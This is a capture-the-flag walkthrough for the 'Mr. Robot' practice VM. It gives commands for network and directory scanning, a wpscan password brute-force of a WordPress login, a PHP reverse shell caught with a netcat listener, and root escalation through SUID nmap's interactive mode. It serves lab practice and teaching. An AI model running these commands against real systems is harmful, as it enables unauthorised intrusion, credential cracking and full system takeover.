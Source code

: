 Walkthorugh of Mr. Robot <br>
Youtube link for the walkthrough: https://www.youtube.com/watch?v=HJMV5SaWbF0 <br>

<br>
<br>
Discovering the IP address of the machine <br>
$ sudo arp-scan -l <br>
<br>
check the website <br>
http://10.0.2.5 <br>
you can also check the website tech stack with the help of wappalyzer
<br>
<br>
running an nmap scan <br>
$ sudo nmap -sC -sV -A 10.0.2.5 -o leavemehere.dat <br>
<br>
<br>
now scan the directory <br>
$ gobuster dir -u http://10.0.2.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt <br>
with this you will get the wordpress login page <br>
copy the address <br>
http://10.0.2.5/wp-login.php <br>
check the username "elliot" <br>
<br>
<br>
also check the robots.txt file, here you will get two files <br>
one is the wordlist and other is the first key of this challenge <br>
you can download the files with 'wget' command <br>
also in the wordlist, some of the words are repeated here <br>
we will sort them and remove the duplicates <br>
$ cat fsociety.dic | sort | uniq > fs.dic <br>
lets now bruteforce the login with the wordlist <br>
$ wpscan --url http://10.0.2.5/wp-login.php --username elliot --passwords ./fs.dic <br>
with this you will get the password for the username <br>
<br>
<br>
now when you login the wordpress website you can use the PHP reverse shell script <br>
change the IP address to the kali IP address in the script <br>
now run the netcat <br>
$ nc -lnvp 1234 <br>
you will get the shell here <br>
check the id and the release version <br>
$ id <br>
$ lsb_release -a <br>
spawn the shell <br>
python -c "import pty; pty.spawn('/bin/bash')" <br>
<br>
<br>
in the robot directory you will get the password for the user 'robot' <br>
login with that credential and access the second key <br>
now to navigate to the root folder <br>
you have to escalate privilege <br>
$ find / -type f -perm -u=s 2>/dev/null <br>
you will find that you can use nmap <br>
you can use the nmap in an interactive mode to get the shell <br>
$ nmap --interactive <br>
nmap > !sh <br>
you will get te root shell now <br>
and then you can get the final key <br>
<br>

